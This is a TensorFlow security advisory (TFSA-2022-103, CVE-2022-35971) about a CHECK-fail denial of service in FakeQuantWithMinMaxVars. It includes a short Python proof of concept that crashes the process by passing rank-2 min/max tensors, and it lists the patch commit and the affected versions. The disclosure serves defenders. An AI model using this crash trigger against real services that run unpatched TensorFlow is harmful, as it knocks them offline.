URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-103.md
## TFSA-2022-103: `CHECK` fail in `FakeQuantWithMinMaxVars`

### CVE Number
CVE-2022-35971

### Impact
If `FakeQuantWithMinMaxVars` is given `min` or `max` tensors of a nonzero rank, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

num_bits = 8
narrow_range = False
inputs = tf.constant(0, shape=[2,3], dtype=tf.float32)
min = tf.constant(0, shape=[2,3], dtype=tf.float32)
max = tf.constant(0, shape=[2,3], dtype=tf.float32)
tf.raw_ops.FakeQuantWithMinMaxVars(inputs=inputs, min=min, max=max, num_bits=num_bits, narrow_range=narrow_range)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by:
 - Neophytos Christou, Secure Systems Labs, Brown University.
 - 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology
